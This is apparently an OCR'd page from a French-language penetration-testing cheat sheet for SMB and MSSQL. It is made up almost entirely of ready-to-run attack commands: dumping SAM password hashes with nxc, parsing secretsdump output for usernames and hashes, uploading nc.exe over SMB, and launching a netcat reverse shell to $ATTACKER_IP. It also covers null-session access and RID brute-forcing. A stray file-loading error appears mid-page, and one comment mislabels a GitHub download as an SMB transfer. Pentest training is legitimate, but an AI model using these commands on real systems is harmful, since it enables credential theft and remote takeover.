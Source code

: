 ### 🔓 **Privilèges & Exécution de commandes**

```bash
# Récupérer les hashes du SAM
nxc smb $IP -u 'UserName' -p 'PASSWORDHERE' --sam

# Extraire les hashes et les noms d'utilisateurs de secretsdump
grep -oP '^[^:]+:\d+:[a-f0-9]{32}:[a-f0-9]{32}' secretsdump.txt | awk -F: '{print $1}' > secretsdumpusernames.txt
grep -oP '^[^:]+:\d+:[a-f0-9]{32}:[a-f0-9]{32}' secretsdump.txt | awk -F: '{print $4}' > secretsdumphashes.txt
```

### 📂 **Transfert de fichiers**

```bash
# Télécharger des fichiers depuis un partage SMB
wget https://github.com/SnaffCon/Snaffler/releases/download/1.0.184/Snaffler.exe

# Copier un fichier vers un partage SMB
smbclient \\\\$IP\\share -U "$USER" -P "$PASSWORD" -c "put /path/to/local/file /remote/path/remote_file.txt"
```

### 🚀 **Reverse Shell**

```bash
# Déposer un reverse shell sur la cible via SMB
nxc smb $IP -u '$USER' -p '$PASSWORD' --put-file /path/to/nc.exe /tmp/nc.exe

# Lancer un reverse shell via netcat
nxc smb $IP -u '$USER' -p '$PASSWORD' -x "C:\tmp\nc.exe $ATTACKER_IP 1234 -e cmd"
```

### 🚨 **Autres attaques SMB**

```bash
# Tester pour l'accès à distance via SMB aux répertoires partagés
smbclient -N -U "user" -L \\<IP>
```

Erreur lors du chargement du fichier: /exploitationDetails/DNS.md

## **MSSQL Enumeration & Exploitation Checklist**

### 🔍 Enumération & Connexion

```bash
# Tester l'accès (y compris en null session)
netexec mssql $IP -u '' -p ''
netexec mssql $IP -u '$DOMAIN\$USER' -p '$PASSWORD'

# Découvrir les utilisateurs via RID bruteforce
nxc mssql $IP -u $USER -p '$PASSWORD' --rid-brute

# Lister les bases de données
netexec mssql $IP -u '$DOMAIN\$USER' -p '$PASSWORD' -q "SELECT name FROM sys.databases"
```
